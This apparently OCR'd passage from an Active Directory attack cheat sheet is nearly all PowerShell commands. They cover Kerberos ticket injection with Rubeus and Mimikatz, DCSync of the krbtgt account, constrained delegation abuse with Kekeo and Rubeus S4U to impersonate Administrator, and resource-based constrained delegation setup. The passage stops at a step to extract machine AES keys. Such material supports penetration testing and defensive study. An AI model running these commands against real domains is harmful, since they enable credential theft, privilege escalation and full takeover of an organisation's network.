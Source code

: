 ```powershell
# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker'machine:
Rubeus.exe ptt /ticket:<base64 encoded text from rubeus monitor>
# Or
[IO.File]::WriteAllBytes("C:\DC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
# Or use Invoke-Mimikatz:
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'

# Run DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

**Constrained Delegation:**  

```powershell
# Using PowerView
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth
# Using ActiveDirectory module:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Using Kekeo (https://github.com/gentilkiwi/kekeo), we request a TGT for the first hop service account (we can use a password or NTLM hash):
tgt::ask /user:<user-w/constrained-delegation> /domain:<domain> /rc4:<ntlm hash>

# Verification is not performed on the specified SPN. The sname field is unencrypted and can be modified while requesting the TGS for any SPN.
# kekeo
tgs::s4u /tgt:<kirbi-file-from-previous> /user:Administrator /service:CIFS/<hostname>|HTTP/<hostname>
# In addition to the service specified in msDs-AllowedToDelegateTo, we also specify an alternate service which uses the same service account as the one specified in msDs-AllowedToDelegateTo. This needs to be for the same host

# mimikatz
Invoke-Mimikatz '"kerberos::ptt <kirbi-file-from-previous>"'
Invoke-Command -ScriptBlock{whoami} -ComputerName <hostname>

# or
# Using Rubeus:
Rubeus.exe s4u /user:<target-user> /rc4:<ntlm-hash> /impersonateuser:administrator /msdsspn:CIFS/<hostname> /altservice:HTTP /domain:<domain> /ptt
# rc4 hash above can be changed to use /aes256 if that works better
# rc4 is the same as ntlm
winrs -r:<computer> cmd.exe
```

**Resource Based Constrained Delegation:**  

```powershell
# Enumerate if we have Write permissions over any object.
# Look at all interesting ACLs without filtering
# Using PowerView (filter by groups the compromised user is a part of):
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}

# Bloodhound
# Select a user, then search for "outbound control rights" by clicking on the user and scrolling down

# If you have write perms over a domain computer
# Using the ActiveDirectory module, configure RBCD on a target-machine for the compromised/foothold machine:
$comps = 'foothold-machine1$'
Set-ADComputer -Identity <target-machine> -PrincipalsAllowedToDelegateToAccount $comps
# Now, let's get the privileges of foothold-machine1$ by extracting its AES keys:
```